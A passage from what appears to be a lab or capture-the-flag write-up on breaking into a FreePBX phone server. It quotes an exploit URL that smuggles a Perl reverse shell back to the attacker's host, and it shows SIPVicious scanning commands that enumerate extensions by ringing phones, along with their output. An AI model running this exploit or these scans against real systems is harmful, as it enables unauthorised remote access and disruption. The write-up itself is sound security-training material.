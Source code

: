 ``` python
#urllib.urlopen(url)
urllib.urlopen(url, context=context) #context added
```
 
Let's examine the url variable, in brief it looks like we are dialling an extension number and throwing in a perl reverse shell payload:
 
> https://'+str(__rhost__)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(__extension__)+'@from-internal/ .... Data:%20 __perl__ %20.....+str(__lhost__)+'%3a'+str(__lport__)+'
 
 
We're relying on the host having perl (likely as our re-direct said Apache/2.2.3 (CentOS) and perl is usually on Linux), and the extension 1000 being valid.
 
Testing for perl is not too easy, but if our exploit fails we can always try python or bash.
 
We can test for the extension though with the SIPVicious suite.
 
* svmap: an active scanner to identify SIP devices on the network
* svwar: scans SIP PBX servers for existing extensions
* svcrack: an online password cracker against SIP PBX servers
* svreport: manages sessions by the other tools + exports to pdf, xml (html), csv and plain tex
 
First we need to find if the SIP service is up:
 
``` Bash
svmap $TARGET
```
 
It is:
 
```
| SIP Device      | User Agent          | Fingerprint |
-------------------------------------------------------
| 10.10.10.7:5060 | FPBX-2.8.1(1.8.7.0) | disabled    |
```
 
next we scrape the directory for numbers:
 
``` bash
svwar -p 5060 $TARGET
```
 
This hits us with an auth error
 
```
ERROR:TakeASip:SIP server replied with an authentication request for an unknown extension. Set --force to force a scan.
WARNING:root:found nothing
```
 
The `--force` option will not help us here as we need  username, lets send an INVITE message  and ring the first 1000 phones instead:
 
``` bash
svwar -m INVITE -p 5060 $TARGET -e1-1000
```
 
gives me:
 
```
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
WARNING:TakeASip:extension '955' probably exists but the response is unexpected
| Extension | Authentication |
------------------------------
| 955       | weird          |
| 233       | reqauth        |
```
 